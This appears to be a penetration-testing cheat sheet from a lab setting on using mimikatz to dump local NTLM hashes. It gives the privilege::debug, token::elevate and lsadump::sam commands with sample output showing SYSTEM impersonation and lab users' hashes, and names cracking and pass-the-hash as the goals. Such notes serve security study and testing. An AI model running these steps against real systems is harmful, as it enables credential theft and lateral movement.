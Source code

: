 # mimikatz
Full breakdown available here: [Mimikatz](https://tools.thehacker.recipes/mimikatz)

Rudimentary setup for dumping NTLM hashes for cracking or pass-the-hash attacks.

To use *sekurlsa::logonpasswords* or *lsadump::sam* we need **SeDebugPrivilege** use this to enable it. So at the `mimikatz #` console use the following.

This sets the debug privilege.

```console
privilege::debug
```
Success looks like:
```console
Privilege '20' OK
```

This tells mimikatz to use a token that impersonates another entity and by default it's `SYSTEM` thus `NT AUTHORITY\SYSTEM`.
```console
token::elevate
```
Success looks like:
```console
SID name  : NT AUTHORITY\SYSTEM

656     {0;000003e7} 1 D 34811          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;000413a0} 1 F 6146616     MARKETINGWK01\offsec    S-1-5-21-4264639230-2296035194-3358247000-1001  (14g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 6217216     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)
```

If the previous two were successfull, now we can get NTLM hashes for users with this.

```console
lsadump::sam
```
Success looks like:
```console
Domain : MARKETINGWK01
SysKey : 2a0e15573f9ce6cdd6a1c62d222035d5
Local SID : S-1-5-21-4264639230-2296035194-3358247000
 
RID  : 000003e9 (1001)
User : offsec
  Hash NTLM: 2892d26cdf84d7a70e2eb3b9f05c425e
 
RID  : 000003ea (1002)
User : nelly
  Hash NTLM: 3ae8e5f0ffabb3a627672e1600f1ba10
...
```
